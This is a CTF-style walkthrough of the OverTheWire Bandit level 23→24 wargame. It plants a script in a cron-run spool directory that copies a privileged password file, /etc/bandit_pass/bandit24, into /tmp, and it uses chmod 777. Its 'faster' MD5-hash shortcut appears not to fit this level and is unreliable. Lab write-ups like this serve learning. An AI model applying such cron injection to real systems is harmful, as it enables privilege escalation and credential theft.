


```markdown
# Written by: VINOD .N. RATHOD  

# Bandit Walkthrough — Level 23 → Level 24  

# Date: 23-08-2025  

## Objective  
Retrieve the password for bandit24 by analyzing the "cron job" of this level. The cron job executes scripts placed in `/var/spool/bandit24/`.  
```

## **Steps to Solve**

### Step 1 — Check Cron Jobs

1. After logging in as **bandit23**, go to the cron jobs directory:

```bash
   cd /etc/cron.d/
   ls -la
```

Here, you will see `cronjob_bandit24`.

2. Read the contents of the cron job:

```bash
   cat cronjob_bandit24
```

It executes:

```
/usr/bin/cronjob_bandit24.sh
```

3. Inspect the script:

```bash
   cat /usr/bin/cronjob_bandit24.sh
```
The script does the following:

* Sets `myname=$(whoami)` (for this level → bandit23).
* Goes to `/var/spool/`.
* Executes any file named after `$myname`.
* Deletes all files in that directory after execution.



---

### Step 2 — Inject Our Own Script

Since the cron job runs scripts from `/var/spool/bandit24/`, we can place our own script there.

4. Create a custom working directory:

```bash
   mkdir /tmp/Ignite123
   cd /tmp/Ignite123
   nano bandit24.sh
```

5. Inside `bandit24.sh`, write the following:

```bash
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 >> /tmp/Ignite123/level24
```

* This script will read the password of bandit24 and store it in `/tmp/Ignite123/level24`.

6. Make the script executable and move it into `/var/spool/bandit24/`:

```bash
   chmod 777 bandit24.sh 
   cp bandit24.sh /var/spool/bandit24/
   chmod 777 /tmp/Ignite123
```

7. Wait a short while for the cron job to execute. Then check your directory:

```bash
   ls
   cat level24
```

You will see the password for **bandit24**.




---

### Alternative (Faster Method)

Instead of injecting a script, we can reuse the **MD5 hash trick** from earlier levels:

8. Generate the hash for `"I am user bandit24"`:

```bash
   echo I am user bandit24 | md5sum | cut -d ' ' -f 1
```

This gives:

```
ee4ee1703b083edac9f8183e4ae70293
```

9. Use the hash to directly read the password file in `/tmp`:

```bash
   cat /tmp/ee4ee1703b083edac9f8183e4ae70293
```

---

### Final Step — Connect as bandit24

10. With the retrieved password, log in as **bandit24**:

```bash
   ssh bandit24@bandit.labs.overthewire.org -p 2220
```

## **Outcome**

* Understood how the cron job executes user-based scripts.
* Learned two methods:

  1. Writing a custom script in `/var/spool/bandit24/`.
  2. Using the **MD5 hash shortcut** to directly locate the password file.
* Successfully retrieved the password for **bandit24**.

---

# THANK YOU!

# \~ **V1NNN22** \~


